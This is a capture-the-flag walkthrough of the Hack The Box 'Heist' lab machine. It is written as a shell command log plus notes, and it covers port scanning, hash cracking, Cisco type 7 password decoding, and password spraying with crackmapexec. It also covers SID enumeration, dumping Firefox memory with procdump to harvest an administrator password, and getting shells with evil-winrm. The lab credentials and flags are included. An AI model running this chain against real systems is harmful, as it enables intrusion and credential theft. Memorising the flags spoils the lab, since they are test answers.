 # Heist - Easy

```shell
nmap -T4 -p- -A -v 10.10.10.149

feroxbuster -u http://10.10.10.149 -w /usr/share/wordlists/dirb/common.txt -x php,html,bak,js,txt,json,docx,pdf,zip --extract-links --scan-limit 2 --filter-status 401,403,404,405,500 --silent

#crack the hash
hashcat -a 0 -m 500 ciscohash.txt /usr/share/wordlists/rockyou.txt

vim users.txt
#add usernames found

vim passes.txt
#add passwords found

#using cme for enumeration
crackmapexec smb -u users.txt -p passes.txt --shares 10.10.10.149

evil-winrm -i 10.10.10.149 -u hazard -p 'stealth1agent'
#does not work

rpcclient -U 'hazard%stealth1agent' 10.10.10.149
#for user enumeration

#in rpcclient
lookupnames hazard
#gives hazard SID

lookupsids S-1-5-21-4254423774-1266059056-3197185112-1008
#user hazard

#we can also use lookupsid.py
lookupsid.py hazard:'stealth1agent'@10.10.10.149

#checking for valid creds again with new users
crackmapexec smb -u users.txt -p passes.txt --shares 10.10.10.149 --continue-on-success

evil-winrm -i 10.10.10.149 -u chase -p 'Q4)sJu\Y8qz*A3?d'
#we get powershell shell as chase

whoami /priv
#we can do basic enumeration

cd ..
#in chase home directory

gci -recurse . | select fullname
#powershell command to go through files recursively and print filename

cd C:\

#go through webfiles
cd inetpub\wwwroot
#we are not allowed to read files

cd C:\

cd "Program Files"

dir
#firefox is installed

Get-Process
#get running processes
#firefox instances used

#download procdump tool from sysinternals
#upload it to chase directory in evil-winrm
cd C:\Users\Chase\Documents

upload /home/sv/Tools/procdump/procdump64.exe

#using procdump for first time
.\procdump64.exe -accepteula

#use -,a flag to write full dump file
.\procdump64.exe -ma 3736
#where 3736 is pid of firefox instance

#transfer dump file to attacker machine
download firefox.exe_221103_093255.dmp

#search for passwords in dmp file
strings firefox.exe_221103_093255.dmp| grep password | less
#we get password for admin@support.htb

vim users.txt
#add Administrator

vim passes.txt
#add the password found from dump file

crackmapexec smb -u users.txt -p passes.txt --shares 10.10.10.149 --continue-on-success
#we get valid creds for Administrator

evil-winrm -i 10.10.10.149 -u Administrator -p '4dD!5}x/re8]FBuZ'
#get Admin shell
```

* Open ports & services:

  * 80 - http - Microsoft IIS httpd 10.0
  * 135 - msrpc - RPC
  * 445 - microsoft-ds
  * 5985 - http - Microsoft HTTPAPI httpd 2.0
  * 49669 - msrpc - RPC

* Enumerated directories and pages:

  * /login.php
  * /attachments
  * /css
  * /errorpage.php
  * /images
  * /js

* While we cannot access the directories, we can access the pages inside.

* On accessing /attachments/config.txt (enumerated by feroxbuster), we get a file containing encoded creds.

* The config file, on Googling some of the commands, seems like it is for Cisco IOS config; moreover it contains a hash of type Cisco-IOS (MD5) for 'secret'.

* On cracking the hash with hashcat, we get the string "stealth1agent".

* The config file also contains encrypted passwords for two users - rout3r and admin; type 7 passwords refer to Vignere cipher passwords.

* We can use online tools to decrypt Cisco type 7 passwords; for rout3r, we get the password "$uperP@ssword" and for admin, "Q4)sJu\Y8qz*A3?d".

* We can attempt to login as guest on /login.php and we get access to a issue chat - this includes the same config file as an attachment that we just went through.

* From the issue chat, we also get the username 'hazard'.

* Now, we have 3 usernames and 3 passwords; we can store them in separate files.

* We can use the crackmapexec tool to enumerate users; SMB shares will be enumerated here.

* crackmapexec shows us that one pair of credentials, hazard:stealth1agent, is able to access SMB shares.

* evil-winrm does not work using these creds, so we have to try other routes.

* As we have access to IPC$, we can attempt to use rpcclient for further enumeration; it gives us info regarding username and SID.

* We can also use lookupsids.py, which brute-forces SIDs and prints usernames.

* Now, we have some more usernames to work on; we can use this with the passwords already obtained and try to get a shell.

* Using crackmapexec again, we get another pair of valid creds, chase:Q4)sJu\Y8qz*A3?d

* We can attempt to get a shell using these creds with the help of evil-winrm.

* After getting shell as chase, we can do basic enumeration to check for clues.

* After getting user flag, we can check for any web files; we are not allowed to read files.

* Going through Program Files, we can see Mozilla Firefox; we can do a memory dump to check for creds.

* After noting down the process IDs for the running firefox processes, we can use [ProcDump from SysInternals Suite](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump) for memory dumping using -ma flag.

* We can transfer the dump file from victim shell to attacker machine for further inspection.

* Searching for passwords in the memory dump gives us the creds admin@support.htb:4dD!5}x/re8]FBuZ, used for logging into a webpage.

* We can attempt to use this password for Administrator on the machine; adding Administrator to usernames and the password found to passwords file will help while using crackmapexec.

* crackmapexec confirms the found password is valid for Administrator user.

* We can login as Administrator using evil-winrm and get the root flag.

```markdown
1. User flag - 4638b00ba64dabffe2e1b66a658005f1

2. Root flag - 5e95a46c5894277427f78c8e1e44ff18
```
